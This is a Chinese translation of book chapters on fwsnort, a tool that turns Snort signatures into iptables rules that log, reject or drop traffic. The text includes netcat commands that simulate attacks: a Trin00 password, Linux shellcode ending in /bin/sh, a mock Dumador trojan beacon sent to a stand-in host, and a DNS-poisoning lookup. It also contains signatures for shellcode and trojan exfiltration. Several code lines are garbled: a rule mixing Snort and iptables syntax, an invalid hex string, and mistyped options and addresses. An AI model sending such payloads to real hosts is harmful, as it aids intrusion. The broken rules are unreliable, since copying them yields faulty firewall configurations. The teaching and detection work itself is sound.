$IPTABLES -A FWSNORT_FORWARD_ESTAB -s 192.168.10.0/24 -p tcp -m string --string "Volume Serial Number" --algo bm -m comment --comment "sid:1292; msg: ATTACK-RESPONSES directory listing; classtype: bad-unknown; rev: 9; FWS:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[1] SID1292 ESTAB"
#!!! alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"Volume Serial Number" --algo bm --comment "sid:1291; msg: ATTACK-RESPONSES directory listing; classtype:bad-unknown; rev: 9; FWS:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[1] SID1292 ESTAB"
#!!! alert tcp $HTTP_SERVERS $HTTP_PORTS -> $EXTERNAL_NET any (msg:"ATTACK-RESPONSES command completed"; flow:established; content:"Command completed"; nocase; reference: bugtraq,1806; classtype:bad-unknown; sid:494; rev:1.0;)
$IPTABLES -A FWSNORT_FORWARD_ESTAB -s 192.168.10.0/24 -p tcp --sport 80 -m string --string "Command completed" --algo bm -m comment --comment "sid:494; msg: ATTACK-RESPONSES command completed; classtype: bad-unknown; reference: bugtraq,1806; rev: 10; FWS:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[2] SID494 ESTAB "
```

```bash
$IPTABLES -A FWSNORT_OUTPUT_ESTAB -p tcp --sport 80 -m string --string "Command completed" --algo bm -m comment --comment "sid:494; msg: ATTACK-RESPONSES command completed; classtype: bad-unknown; reference: bugtraq,1806; rev: 10; FWS:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[2] SID494 ESTAB "
```

## 使用跳转规则激活 Fwsnort 链

`fwsnort.sh` 的最后一部分通过指示 iptables 将流量发送到这些规则，使整个规则集在内核中生效。直到此时，`fwsnort.sh` 执行的所有 iptables 命令仅仅是将 fwsnort 策略加载到运行中的内核中。

由于目前还没有将数据包从内置 iptables 链发送到 fwsnort 链的跳转规则，因此到目前为止我们只使用了内核内存；所有规则都还不能与在内核中流动的数据包进行交互。最后六条命令改变了这一点，它们首先删除任何现有的 fwsnort 跳转规则 [61]，然后使 `INPUT`、`OUTPUT` 和 `FORWARD` 每个链中的第一条规则将所有数据包跳转到相应的 fwsnort 链。（跳转规则是 fwsnort 添加到任何内置 iptables 链中的唯一规则。）

```bash
$IPTABLES -D FORWARD -i ! lo -j FWSNORT_FORWARD 2> /dev/null
$IPTABLES -I FORWARD 1 -i ! lo -j FWSNORT_FORWARD
$IPTABLES -D INPUT -i ! lo -j FWSNORT_INPUT 2> /dev/null
$IPTABLES -I INPUT 1 -i ! lo -j FWSNORT_INPUT
$IPTABLES -D OUTPUT -o ! lo -j FWSNORT_OUTPUT 2> /dev/null
$IPTABLES -I OUTPUT 1 -o ! lo -j FWSNORT_OUTPUT
```

## 注意

请参阅附录 B，其中包含一个 `fwsnort.sh` 脚本示例，该脚本将 web-attacks Snort 规则文件翻译成等效的 iptables 策略。

## fwsnort 的命令行选项

fwsnort 有许多命令行选项可用于影响其执行，我们在此介绍一些最常用的选项。（您可以在 `fwsnort(8)` 帮助页中找到所有命令行参数的详尽阐述。）

- **--ipt-drop**

此选项指示 fwsnort 在将数据包转发到预期目标之前将其丢弃，而不仅仅是记录日志。（默认情况下，fwsnort 仅记录恶意数据包。）这赋予了 fwsnort 主动响应网络攻击的权限。

- **--ipt-reject**

此选项指示 fwsnort 构建一个使用 `REJECT` 目标的 iptables 策略，通过 TCP Reset 包切断恶意 TCP 连接，并使用 ICMP 端口不可达（Port Unreachable）消息响应恶意 UDP 流量。

- **--snort-confpath**

此选项指示 fwsnort 直接从现有的 Snort 配置文件（通常位于 `/etc/snort/snort.conf`）中读取 `HOME_NET`、`EXTERNAL_NET`、`HTTP_SERVERS` 等变量。没有任何限制阻止 Snort 和 fwsnort 在同一系统上运行。即使 Snort 以内联（inline）模式运行，情况依然如此，因为 fwsnort 规则被划分在自己的链中；数据包可以在触及 iptables 策略中的 `QUEUE` 规则之前跳转到这些链中。

- **--snort-sid**

此选项允许将 fwsnort 的翻译工作限制在特定的 Snort ID 或一组 Snort ID 列表中。当被 iptables 防火墙保护的软件出现新漏洞，且 Snort 社区发布了用于检测该漏洞攻击的新签名时，此选项最为有用。通过使用带有 `--snort-sid` 选项的 fwsnort，我们可以快速部署新策略来记录和/或丢弃与此新攻击相关的恶意数据包。

- **--include-type**

此选项指示 fwsnort 仅翻译包含在单个规则文件中的 Snort 规则。例如，要翻译 `backdoor.rules` 文件中的规则，可以在 fwsnort 命令行中使用 `--include-type backdoor`。同样支持以逗号分隔的类型列表，例如 `--include-type ftp,mysql`。

- **--ipt-list**

此选项显示各个 fwsnort 链中所有活动的规则。这些链包括 `FWSNORT_INPUT`、`FWSNORT_INPUT_ESTAB`、`FWSNORT_OUTPUT`、`FWSNORT_OUTPUT_ESTAB`、`FWSNORT_FORWARD` 和 `FWSNORT_FORWARD_ESTAB`。

- **--ipt-flush**

此选项清除 fwsnort 链中所有活动的规则。这对于在不删除与现有策略相关联的其他 iptables 规则的情况下快速删除 fwsnort 规则非常有用。

- **--no-addresses**

此选项强制 fwsnort 不引用与防火墙系统上任何接口相关联的 IP 地址。如果 fwsnort 部署在接口未分配 IP 地址的桥接防火墙上，此选项最为有用。

- **--no-ipt-sync**

此选项指示 fwsnort 禁用通常针对本地 iptables 策略运行的所有兼容性检查。由此产生的 fwsnort 策略将不会跳过任何检测那些“防火墙本身配置为不接受”的流量的规则。

- **--restrict-intf**

此选项将 fwsnort 规则限制在指定的接口（或多个接口）上。默认情况下，fwsnort 不检查回环接口（loopback interface）的流量，但检查所有其他接口的流量。若要让 fwsnort 仅检查例如 `eth0` 和 `eth1` 接口的流量，可以使用 `--restrict-intf eth0,eth1`。

---

[59]¹ 请注意，任何具有 `CAP_NET_ADMIN` 能力的非 root 用户也可以执行 iptables 命令。

[60]² 有关主机安全问题和加固策略的更多信息，Bastille Linux (http://www.bastille-linux.org) 提供了大量优秀的教育信息，以及自动加固各种 Linux 发行版的能力。

[61]³ 这使得多次执行 `fwsnort.sh` 脚本并与现有的 iptables 策略保持简洁接口成为可能，因为每个内置链只能存在一个 fwsnort 跳转规则。1.0 之前的 fwsnort 版本存在一个 Bug，如果多次执行 `fwsnort.sh` 脚本，会添加额外的跳转规则。

## 观察 fwsnort 的实际运行

通过具体的攻击示例来演示 fwsnort 的操作，是了解 fwsnort 如何运作以及如何有效利用它的实用方法。在本节中，我们将涵盖一组源自 Snort 规则集的攻击，并观察 fwsnort 如何检测并（以及可选地）对这些攻击做出反应。默认情况下，由 fwsnort 构建的策略表现得像一个入侵检测系统，也就是说，攻击仅通过 `LOG` 目标进行记录；它不会尝试丢弃数据包、重置 TCP 连接或生成 ICMP 错误代码数据包。然而，我们可以通过在 fwsnort 中使用 `--ipt-reject` 或 `--ipt-drop` 命令行参数，迅速将这种被动姿态转变为主动姿态，我们将在接下来的示例中看到。

### 检测 TrIn00 DDoS 工具

TrIn00 是一种经典的分布式拒绝服务（DDoS）攻击工具，它通过从多个攻击节点同时发起洪水攻击，向目标发送大量的 UDP 数据包。TrIn00 实现了一套自己的方法来协调攻击节点的行动，而 Snort 签名集专门设有几个签名用于检测 TrIn00 的管理通信。例如，Snort ID 237 会查找发往家庭网络 27444 端口的 UDP 数据包中包含的字符串 `144adsl`。该字符串是 TrIn00 控制节点用于对端点节点进行身份验证以指示其执行特定操作的默认密码，并包含在 Snort 规则 ID 237 中：

```
alert udp $EXTERNAL_NET any -> $HOME_NET 27444 (msg:"DOS TrIn00 Master to Daemon default password attempt"; content:"144adsl"; reference:arachnids,197; classtype: attempted-dos; sid:237; rev:2;)
```

使用 fwsnort，我们将 Snort 规则转换为等效的 iptables 规则：

```bash
[iptablesfw]# fwsnort --snort-sid 237
[+] Parsing Snort rules files...
[+] Found sid: 237 in ddos.rules
Successful translation.
```

以下是生成的位于 `FWSNORT_FORWARD` 链中的 iptables 规则。

```bash
$IPTABLES -A FWSNORT_FORWARD -d 192.168.10.0/24 -p udp --dport 27444 -m string --string "144adsl" --algo bm -m comment --comment "sid:237; msg: DOS TrIn00 Master to Daemon default password attempt; reference: arachnids,197; rev: 2; FWS:1.0;" -j LOG --log-ip-options --log-prefix "[1] SID237"
```

由于这是一个 UDP 签名，不存在已建立连接的概念，因此该签名属于 `FWSNORT_FORWARD` 链而非 `FWSNORT_FORWARD_ESTAB` 链。此外，尽管本书中的默认策略（见第 20 页“默认 iptables 策略”）不接受发往 27444 端口的 UDP 数据包，但 fwsnort 仍然可以检测到匹配 TrIn00 签名的数据包，因为在发送数据之前不需要建立连接（与 TCP 签名的情况不同）。也就是说，在客户端通过 UDP 套接字发送数据之前，我们不需要一条 ACCEPT 规则。这是 TCP 和 UDP 套接字之间的一个根本区别。

现在，在 `ext_scanner` 系统上执行以下命令，查看签名是否被触发：

```bash
[ext_scanner]$ echo "144adsl" | nc -u 71.157.X.X 27444
```

iptables 日志准确地报告了签名匹配：


`[iptablesfw]# grep SID237 /var/log/messages | tail -n 1`  
`Jul 19 22:18:24 iptablesfw kernel: [1] SID237 IN=eth0 OUT=eth0 MAC=00:13:d3:b8:d6:b4 00:30:14:8:40:8:40:e4:37:10:8:00 SRC=144.202.X.X DST=71.157.X.X LEN=36 TOS=0x00 PREC=0x00 TTL=64 ID=42386 DF PROTO=UDP SPT=54494 DPT=27444 LEN=16`

上方**粗体**部分是来自`ext_scanner`系统的 iptables 日志前缀`[1] SID237`——事实上，`fwsnort`已经检测到了（模拟的）攻击。

## 检测 Linux Shellcode 流量

由于漏洞利用开发人员有时会共享相同的 shellcode，Snort 签名集中的`shellcode.rules`文件会在网络流量中查找这些常见的字节基础。以下签名中的`content`字段显示了用于攻击 Linux 系统的常见 shellcode 片段：

```
alert ip $EXTERNAL_NET $SHELLCODE_PORTS -> $HOME_NET any (msg:"SHELLCODE Linux shellcode"; content:"90 90 EB CO FF CB 0F FF FF/bin/sh"; reference:arachnids,343; classtype: shellcode-detect; sid:652; rev:9;)
```

使用`fwsnort --snort-sid 652`翻译此签名将生成下面的 iptables 命令。虽然原始 Snort 规则适用于所有 IP 流量，但目标端口要求强制 iptables 仅匹配 TCP 或 UDP 数据包。

以下是应用于 TCP 流量的翻译后的 Snort 规则：

```bash
IPTABLES -A FWSNORT_FORWARD -i eth0 -d 192.168.10.0/24 -p tcp --sport ! 80 -m string --hex-string "90 90 EB CO FF CB 0F FF FF/bin/sh" -m algo bm -m comment --comment "sid: 652; msg: SHELLCODE Linux shellcode; classtype: shellcode-detect; reference: arachnids,343; rev: 9; FWs:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[1] SID652 "
```

为了触发 iptables 中的签名匹配，首先在`iptablesfw`系统上执行`fwsnort.sh`脚本，然后在`ext_scanner`系统上执行下面的 Perl 命令。根据签名的要求，由 Netcat 构建的 TCP 会话的源端口不是 80 端口，因为它根据本地 TCP 栈实例化当前 TCP 套接字的方式，选择一个 1024 以上的随机高端口：

```bash
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding shellcode rules.
Rules added: 2
[ext_scanner]$ perl -e 'print "\x90\x90\x90\x90\xBE\x8E\x0C0\xFF\x0F\xFF\xFB/bin/sh"' | nc 71.157.X.X 80
```

这次模拟攻击被 iptables 捕获，并出现以下日志消息：

```
[iptablesfw]# grep SID652 /var/log/messages | tail -n 1
Jul 19 23:08:18 iptablesfw kernel: [1] SID652 IN=eth0 OUT=eth1 SRC=144.202.X.X DST=192.168.10.3 LEN=67 TOS=00 GNP=000 DPT=80 TTL=63 ID=570 DF PROTO=TCP SPT=54629 DPT=80 WINDOW=0 RES=000 ACK PSN URG=0 OPT (0101080A283119EFADF325718)
```

这表明`fwsnort`在 Snort 签名集的指导下，能够有效地检测模拟攻击。

## 检测并应对 Dumador 特洛伊木马

近年来，恶意软件作者提高了计算机安全的风险。由于主要由未打补丁且具有互联网宽带连接的 Windows 系统提供了丰富的目标环境，专门用于收集财务和其他个人数据的恶意软件所产生的破坏性影响可能是巨大的。

Dumador 特洛伊木马是一种恶意软件，它包含一个键盘记录器（用于收集在键盘上输入的敏感信息并将其传回攻击者）和一个监听 9125 和 64972 端口的后门服务器。Bleeding Snort 规则集包含一个签名，旨在检测 Dumador 特洛伊木马尝试通过 Web 会话将信息发送回攻击者的情况，如下所示：

```
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"BLEEDING-EDGE TROJAN Dumador Reporting User Activity"; flow:established,to_server; content:"/php?p="; nocase; content:"machineid="; nocase; content:"&connection="; nocase; content:"&iplan="; nocase; classtype:trojan-activity; reference:url,www.norman.com/Virus/Virus_descriptions/24279/; sid:2002763; rev:2;)
```

由于该签名需要多个应用层内容的匹配，因此在`fwsnort`的上下文中特别有趣。为了翻译该签名，我们执行以下操作：

```bash
[iptablesfw]# fwsnort --snort-sid 2002763
[+] Parsing Snort rules files...
[+] Found sid: 2002763 in bleeding-all.rules
Successful translation.
```

这将产生如下所示的冗长 iptables 命令，它通过四次使用 iptables 字符串匹配来搜索原始 Bleeding Snort 规则要求的每个字符串：

```bash
$IPTABLES -A FWSNORT_FORWARD_ESTAB -s 192.168.10.0/24 -p tcp --dport 80 -m string --string ".php?p=" --algo bm -m string --string "machineid=" --algo bm -m string --string "&connection=" --algo bm -m string --string "&iplan=" --algo bm -m comment --comment "sid:2002763; msg: BLEEDING-EDGE TROJAN Dumador Reporting User Activity; classtype: trojan-activity; reference: url,www.norman.com/Virus/Virus_descriptions/24279; sev: 2; FWS:1.0;" -j LOG --log-ip-options --log-tcp-options --log-prefix "[1] SID2002763 ESTAB "
```

现在，我们通过执行`fwsnort.sh`脚本，让 iptables 捕获内核（注：原文 sorting system catches the kernel 可能是笔误，意指应用规则）：

```bash
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding bleeding-all rules.
Rules added: 2
```

签名激活后，就可以对其进行测试了，为此我们参考图 1-2 中的网络图。在标记为`lan_client`的系统上，我们执行以下 Perl 命令（使用`A`字符是可选的，`printf`函数可以在不同的匹配标准之间提供更好的数据），并将输出与 Netcat 一起直接管道传输到标记为`ext_web`的 Web 服务器：

```bash
[lan_client]$ perl -e 'print ".php?p=AAAAA?machineid=AAAAA&connection=AAAAA&iplan=AAAA"' | nc 12.34.X.X 80
```

在防火墙系统上，iptables 捕获了该活动并输出了这条成功的日志消息：

```
[iptablesfw]# grep SID2002763 /var/log/messages | tail -n 1
Jul 20 01:12:53 iptablesfw kernel: [1] SID2002763 ESTAB IN=eth1 OUT=eth0 SRC=192.168.10.3 DST=12.34.X.X LEN=104 TOS=0x00 PREC=0x00 TTL=63 ID=17247 DF PROTO=TCP SPT=55040 DPT=80 WINDOW=1460 RES=0x00 ACK PSN URG=0 OPT (01010080AAD7FC90A2B4496B9)
```

既然已经有了检测 Dumador 特洛伊木马尝试携带大量敏感信息“回巢”的规则，`fwsnort`就不必再保持温和，可以通过使用`--ipt-reject`命令行参数强制关闭 Dumador 的 TCP 会话：

```bash
[iptablesfw]# fwsnort --snort-sid 2002763 --ipt-reject
[+] Parsing Snort rules files...
[+] Found sid: 2002763 in bleeding-all.rules
Successful translation.
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding bleeding-all rules.
Rules added: 4
```

现在，重新运行我们的模拟会导致不同的 iptables 日志消息。（日志前缀`[1] REJ SID2002763`表示`fwsnort`通过生成 RST 包对该 Web 会话采取了行动。）

```
[iptablesfw]# grep SID2002763 /var/log/messages | tail -n 1
Jul 20 01:16:41 iptablesfw kernel: [1] REJ SID2002763 ESTAB IN=eth0 OUT=eth0 SRC=192.168.10.3 DST=12.34.X.K LEN=104 TOS=0x00 PREC=0x00 TTL=63 ID=17507 DF PROTO=TCP SPT=39786 DPT=80 WINDOW=1460 RES=0x00 ACK PSH URG=0 OPT (0101080AADB8436092B4575DD)
```

在这种特定情况下，如果你是在金融机构（例如）中运行几个 Windows 系统网络，那么对匹配 Dumador 签名的网络流量采取上述惩罚措施可能是非常有意义的。切断合法连接的风险可能低于丢失重要财务数据的风险。

## 检测并应对 DNS 缓存中毒攻击

2005 年 2 月，人们发现 Windows NT 4 和 2000 DNS 服务器的默认配置以及一些 Symantec Gateway 产品使其容易受到 DNS 缓存中毒攻击。⁶² 这一漏洞在互联网上被利用，攻击者使用一组恶意 DNS 服务器向易受影响的下游 DNS 服务器发布虚假的 DNS 记录，从而使合法用户对某些域名的请求被定向到攻击者选择的 IP 地址。

为了使任意 DNS 服务器成为其中一个恶意 DNS 服务器的“下游”，攻击者只需要诱导目标服务器向恶意服务器发送 DNS 请求。这可以通过多种方式实现，例如向一个虚构用户发送电子邮件，从而触发向源域发送的未传递报告（NDR）——这要求目标网络中运行有邮件服务器；或者通过之前安装的间谍软件向恶意服务器发出请求。

在`http://www.bleedingsnort.com`提供的`bleeding-all.rules`文件中，Snort ID 2001842 用于检测内部网络中的系统是否对参与 DNS 缓存中毒攻击的恶意域名之一`7sir7.com`发出了 DNS 请求。我们现在可以通过将该规则翻译成 iptables 策略并执行生成的`fwsnort.sh`脚本，让`fwsnort`提醒我们这一事实：

```
[iptablesfw]# fwsnort --snort-sids 2001842
[*] Parsing Snort rules files...
[*] Found sid 2001842 in bleeding-all.rules
Successful translation.
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[*] Adding bleeding-all rules.
Rules added: 2
```

由 SID 2001842 标识的原始 Snort 规则及其对应的 iptables 规则出现在`FWSNORT_FORWARD`链中，数据包从内置的`FORWARD`链跳转到该链：

```
alert udp $HOME_NET any -> any 53 (msg: "BLEEDING-EDGE Possible DNS Lookup for DNS Poisoning Domain 7sir.com"; content:"|05|7sir|03|com"; nocase; reference:url,isc.sans.org/diary.php?date=2005-04-07; classtype: misc-activity; sid:2001842; rev:3;)
```

```bash
$IPTABLES -A FWSNORT_FORWARD -p udp --dport 53 -m string --hex-string "|05|7sir|03|com" --algo bm -m comment --comment "sid:2001842; msg:BLEEDING-EDGE Possible DNS Lookup for DNS Poisoning Domain 7sir.com"; classtype:misc-activity; reference:url,isc.sans.org/diary.php?date=2005-04-07; rev:3; FWS:"1.0"; -J LOG --log-ip-options --log-prefix "[1] SID2001842 "
```

为了证明`fwsnort`规则确实有效，我们模拟从内部主机发出的足以导致签名匹配的流量。同样，我们使用[图 1-2](Figure 1-2)中的网络图来帮助说明这个例子。

`dnsserver`主机模拟一个请求，假设它还没有将[www.7sir7.com](www.7sir7.com)映射到 IP 地址的“A”记录，因此它必须发出一个最终会查询`7sir7.com`域名的权威（恶意）DNS 服务器的请求。为了测试`fwsnort`规则集是否工作，我们不需要（也不想要！）一个真正容易受到缓存中毒攻击的内部系统；只要从内部网络的任何系统向任何目标端口为 53 的外部 IP 地址伪造一个包含关键字节`|05|7sir|03|com`的 UDP 数据包就足够了。

我们可以通过在`dnsserver`系统上使用下面显示的单个 Perl 命令，并将输出通过管道传输给 Netcat，从而轻松构造此数据包，将其通过网络发送到代表恶意 DNS 服务器的 IP 地址：

```bash
[dnsserver]# perl -e 'print "\x057sir\x03com"' | nc -u 234.50.X.X 53
```

在`iptablesfw`防火墙系统上，我们看到 iptables 确实检测到了可疑数据包，并在`/var/log/messages`中创建了以下日志消息（注意`[1] SID2001842`日志前缀）：

```bash
[iptablesfw]# grep SID2001842 /var/log/messages | tail -n 1
Jul 7 22:31:43 iptablesfw kernel: [1] SID2001842 IN=eth0 OUT=eth0 SRC=192.168.10.4 DST=234.50.X.X LEN=38 TOS=0x00 PREC=0x00 TTL=62 ID=160f0 PROTO=UDP SPT=16408 DPT=53 LEN=18
```

由于我们在翻译缓存中毒签名时没有向`fwsnort`指定`--ipt-drop`或`--ipt-reject`命令行参数，iptables 没有尝试阻止可疑数据包离开网络。我们可以通过在防火墙的外部接口上运行数据包追踪并执行上述相同的 Perl 命令来确认这一点。


```bash
[iptablesfw]# tcpdump -l eth0 -nn port 53 and host 234.50.X.X -s 0 -X
tcpdump: verbose output suppressed, use -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
22:41:22.683862 IP 71.157.X.16414 > 234.50.X.X.53: [|domain|
0x0000: 4500 0026 40fc 3e11 0ce1 0000 0000 E..&d.8.>......
0x0010: 0000 0000 401e 0035 0012 86e50537 7369 D0..@..5....7si
0x0020: 7237 0363 6f6d r7.com \
```

在上面的 `tcpdump` 输出中，**粗体**显示的十六进制代码显示了与缓存中毒签名相关联的确切应用层数据。这证明了数据包被转发通过了 `iptables` 防火墙。

但 `fwsnort` 不需要满足于仅仅记录上述 DNS 缓存中毒攻击。在这个例子中，我们指令它丢弃发往缓存中毒域名的 DNS 请求，重新部署生成的 `iptables` 策略，再次从 `dnsserver` 系统模拟请求，并检查 `iptables` 日志：

```bash
[iptablesfw]# fwsnort --snort-sids 2001842 --ipt-drop
[+] Parsing Snort rules files...
[+] Found sid: 2001842 in bleeding-all.rules
    Successful translation.
[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding bleeding-all rules.
Rules added. 
[dnsserver]# perl -e 'print "\x057sir\x03com"' | nc -u 234.50.X.X 53
[iptablesfw]# grep SID2001842 /var/log/messages | tail -n 1
Jul 7 22:33:42 fw kernel: [1] DRP SID2001842 IN=eth1 OUT=eth0 SRC=192.168.10.4 DST=234.50.X.X LEN=38 TOS=0x00 PREC=0x00 TTL=62 ID=6070 PROTO=UDP SPT=1408 DPT=53 LEN=18
```

这一次，日志前缀发生了变化。不再是简单的 `[1] SID2001842`，现在变成了 `[1] DRP SID2001842`。

`DRP` 字符串表明 `iptables` 在记录该 DNS 请求的同时将其丢弃了。通过再次在外部防火墙接口上运行数据包追踪并看到请求从未通过，可以证实这一点。

## 注意

`fwsnort` 使用 `DRP` 和 `REJ` 而不是 `DROP` 和 `REJECT`，是因为 `iptables` 的 `LOG` 匹配对日志前缀有 29 个字符的限制。关于 `--ipt-drop` 和 `--ipt-reject` 选项在幕后运行机制的更多信息，请参阅第 11 章。

> ⁶² 有关 DNS 缓存中毒攻击的详细分析以及攻击者使用的策略，请参阅 http://isc.sans.org/presentations/dnspoisoning.php。

## 设置白名单和黑名单

任何能够根据应用层数据拦截网络通信的软件都应该能够通过`白名单`（`whitelist`）将某些网络或 IP 地址从任何拦截操作中排除。同时，它应该能够根据`黑名单`（`blacklist`）强制丢弃所有发往或来自某些网络或 IP 地址的数据包。

`fwsnort` 通过 `/etc/fwsnort/fwsnort.conf` 文件中的 `WHITELIST` 和 `BLACKLIST` 变量支持白名单和黑名单。例如，为了确保 `fwsnort` 永远不对源自或发往 `webserver`（图 1-2 中的 IP 地址 `192.168.10.3`）的通信采取行动，并丢弃所有发往或来自 IP 地址 `192.168.10.200`⁶³ 的数据包，请在 `fwsnort.conf` 中包含以下行：

```
WHITELIST    192.168.10.3;
BLACKLIST    192.168.10.200;
```

当你使用 `fwsnort` 构建 `fwsnort.sh` 脚本时，会添加两个新部分：

```bash
################ Add IP/network WHITELIST rules ##################
$IPTABLES -A FWSNORT_FORWARD -s 192.168.10.3 -j RETURN
$IPTABLES -A FWSNORT_FORWARD -d 192.168.10.3 -j RETURN
$IPTABLES -A FWSNORT_INPUT -s 192.168.10.3 -j RETURN
$IPTABLES -A FWSNORT_OUTPUT -d 192.168.10.3 -j RETURN

################ Add IP/network BLACKLIST rules ##################
$IPTABLES -A FWSNORT_FORWARD -s 192.168.10.200 -j DROP
$IPTABLES -A FWSNORT_FORWARD -d 192.168.10.200 -j DROP
$IPTABLES -A FWSNORT_INPUT -s 192.168.10.200 -j DROP
$IPTABLES -A FWSNORT_OUTPUT -d 192.168.10.200 -j DROP
```

白名单中每个 `fwsnort` 链对 `RETURN` 目标的调用，能够尽可能早地短路签名比较过程，以尽量减少用于重量级数据包检查的 CPU 资源；这些规则在添加签名规则之前被添加到 `fwsnort` 链中。同样，黑名单规则的 `DROP` 目标在执行任何额外处理之前就直接丢弃匹配的数据包。

内置 `FORWARD` 链和 `fwsnort` 链的数据包流向汇总请参见图 10-1。

图 10-1 图。经过 `FORWARD` 链和 `fwsnort` 链的路径

¹⁶³¹⁸ 该 IP 地址位于内部网络中，但有时某些系统作为内部网络的专用资源运行，绝不应与防火墙外部的网络通信。在这种情况下，黑名单规则可以强制执行与外部网络的零通信。另一种适用黑名单规则的场景是内部系统已被攻破，因此在清理完毕之前，必须严格限制其通信。

## 结语

`Snort` 社区为检测网络攻击提供了一种有效的语言，因此 `fwsnort` 将 `Snort` 签名集作为其攻击描述的来源是理所当然的。但是，`iptables` 是一个防火墙，而所有防火墙的核心都在于*控制*。考虑这样一个场景：在你运行 Linux 系统的某项关键业务服务器软件中发现了一个漏洞。在能为该服务器安排停机维护窗口以进行补丁修复之前，该系统一直处于易受攻击状态。通过利用 `Snort` 社区的力量，一旦签名被开发并发布，`fwsnort` 就可以告知你的 Linux 内核如何丢弃那些看似在利用该漏洞的数据包，从而在它们造成实际损害之前将其拦截。

尽管 `fwsnort` 可以构建丢弃数据包的 `iptables` 规则集，但这种响应并不能动态地针对恶意 IP 地址实施持久的封禁规则——这需要一个用户空间进程来完成。我们将在第 11 章中看到，`fwsnort` 与 `psad` 结合可以构建基于超时机制的应用程序层攻击封禁规则。

# 第 11 章. 结合 PSAD 和 FWSNORT

到目前为止，我们分别介绍了 `fwsnort` 和 `psad` 的操作和理论方面，但尚未将这两个程序结合起来。虽然 `psad` 提供了检测、告警和自动响应能力，但其检测引擎的有效性从根本上受限于 `iptables` 日志格式的特性。`fwsnort` 提供了更好的攻击检测能力，包括对应用程序层攻击的检测。而且由于 `iptables` 始终处于网络流量的内联路径上，`fwsnort` 可以（可选地）阻止恶意数据包到达其预定目标。

然而，由于源自 `fwsnort` 的 `iptables` 策略完全在 Linux 内核中运行，它无法执行用户空间应用程序通常能够实现的各种告警功能。我们需要一种机制，将 `fwsnort` 的签名检测能力与 `psad` 执行 `whois` 查询、反向 DNS 查找、发送电子邮件告警、将危险等级与恶意 IP 地址关联以及向 `DShield` 通报攻击信息的能力结合起来。

在本章中，我们将讨论如何通过让 `psad` 和 `fwsnort` 相互强化，从而最大限度地提高两者的有效性。本章最后将讨论如何开发一个用于检测 `Metasploit` 更新的签名，以及如何同时使用 `fwsnort` 和 `psad` 来干扰此类活动。

## 将 fwsnort 检测与 psad 操作结合

正如第 10 章中所讨论的，当 `fwsnort` 检测到攻击时，它会生成一条 `iptables` 日志消息。这条消息包含一个日志前缀，用于告知用户触发该日志消息的特定 `Snort` 规则 ID、`fwsnort` 链中的规则编号，以及相应的数据包是否属于一个已建立的 TCP 会话。

让我们看看 `fwsnort` 和 `psad` 将如何处理针对 `MediaWiki` 软件的攻击。

#### WEB-PHP Setup.php 访问攻击

`Snort` 规则 ID 2281 旨在检测尝试利用 `MediaWiki` 软件（最初为驱动 `Wikipedia` 而设计的软件；详见 http://www.wikipedia.org）中输入验证缺陷的尝试。该漏洞由 `Bugtraq ID 9057` 描述，并被 `Snort` 规则 ID 2281 标记为 `WEB-PHP Setup.php access attack`。如果成功利用该漏洞，在收到包含特殊构造 URI 参数的 HTTP 请求后，可能会导致在目标系统上未经授权地远程执行代码。我们将模拟一次旨在利用 `WEB-PHP Setup.php access` 漏洞的攻击，目标是内部 Web 服务器（图 1-2 中的主机名 `webserver`）。我们假设默认的 `iptables` 策略（由 `iptables.sh` 脚本创建）已部署在 `iptablesfw` 系统上，模拟攻击从 `ext_scanner` 系统（IP 地址 `144.202.x.x`）发起。

首先，我们使用基于文本的 Web 浏览器 `lynx` 验证我们可以通过 `iptables` 防火墙从 `ext_scanner` 系统连接到 `webserver`。（Web 服务器已被配置为在收到 `index.html` 页面的有效 Web 请求时显示字符串 `Internal webserver; happy browsing`。）

```bash
[ext_scanner]$ lynx http://71.157.X.X
Internal webserver; happy browsing
```

在证明可以通过 `iptables` 防火墙进行 Web 连接后，我们将在部署 `fwsnort` 或 `psad` 之前模拟攻击，以便我们知道预期的结果。首先，这是 `Snort` 规则 ID 2281，旨在检测尝试利用 `Bugtraq ID 9057` 所标漏洞的尝试：

```
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"WEB-PHP Setup.php access"; flow:to_server_established; uricontent:"/Setup.php"; nocase; reference:bugtraq,9057; classtype:web-application-activity; sid:2281; rev:2;)
```

除了 `/Setup.php` 字符串外，上述规则并不关心从 Web 服务器请求的 URI 参数的具体内容（这可能取决于攻击者试图实现的目标）。该签名严格在 Web 请求的 URI 部分寻找 `/Setup.php` 字符串，并且根据 `flow` 关键字的要求，此数据必须出现在一个已建立的 TCP 连接中。这使得模拟该漏洞的利用变得非常简单：

```bash
[ext_scanner]$ lynx http://71.157.X.X/Setup.php
404 Not Found
The requested URL /Setup.php was not found on this server.
Apache/2.0.54 (Fedora) Server at 71.157.X.X Port 80
```

这告诉我们，我们的内部 Web 服务器并不易受此攻击影响，并且由于它没有运行 `MediaWiki`，我们预料地得到了 `404 Not Found` 错误，表明请求的页面不存在。请记住，我们是在模拟攻击——我们只需要创建看起来像 `Snort` 签名试图寻找的那种网络流量即可。

## 使用 fwsnort 检测攻击

现在我们运行 `fwsnort`，（暂时）不使用 `--ipt-drop` 或 `--ipt-reject` 参数，以便使用 `iptables` 检测 `WEB-PHP Setup.php` 访问：

```bash
[iptablesfw]# fwsnort -snor-sid 2281
[+] Parsing Snort rules file...
[+] Found sid: 2281 in web-php.rules
    Successful translation

[+] Logfile: /var/log/fwsnort.log
[+] iptables script: /etc/fwsnort/fwsnort.sh

[iptablesfw]# /etc/fwsnort/fwsnort.sh
[+] Adding web-php rules
Rules added: 2
```

